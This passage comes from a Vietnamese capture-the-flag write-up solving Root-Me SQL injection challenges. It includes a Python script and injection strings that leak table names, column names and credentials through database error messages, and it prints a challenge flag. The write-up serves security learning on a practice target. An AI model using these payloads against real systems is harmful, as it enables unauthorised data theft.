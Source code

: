 ![image](https://hackmd.io/_uploads/S19j1KKH6.png)


Đã tìm được table_name là `m3mbr35t4bl3` rồi tiếp theo tiếp tục với column_name 

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

URL = "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"

for i in range(0,50):
	query ='ASC, (CAST((select column_name from information_schema.columns limit 1 offset ' + str(i) + ') as int)) -- -'
	PARAMS ={'action':'contents','order':query}
	http  = requests.get(url = URL,params = PARAMS,verify=False,proxies=proxies)
	content = http.text
	content = content.replace("</body></html>","")
	ans = "ERROR:  invalid input syntax for integer:"
	position = content.find(ans) + len(ans)
	print ("column_name is :" + content[position:])
```
Kết quả tìm được `us3rn4m3_c0l` , `p455w0rd_c0l`

![image](https://hackmd.io/_uploads/rJMKxtYS6.png)

Oke bây giờ ta tiếp tục tìm xem user `admin` ở vị trí thứ bao nhiêu 

`ASC,CAST((SELECT+us3rn4m3_c0l+FROM+m3mbr35t4bl3+LIMIT+1+OFFSET+0)+AS+int)+--+-`

Thử với `OFFSET 0` thì may quá 1 phát ăn ngay, nếu ko được thì có thể viết code python như các phần trên.

![image](https://hackmd.io/_uploads/r1Dr7tYrp.png)

Phần còn lại là lấy password thui 

![image](https://hackmd.io/_uploads/SysdQttST.png)

Flag : 1a2BdKT5DIx3qxQN3UaC

## [8. Insert](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert)

![image](https://hackmd.io/_uploads/HJ-fVCFHa.png)

Với chall này yêu cầu đề bài không giống bài trước là đi tìm mật khẩu của admin , mà là lấy flag hmmm...
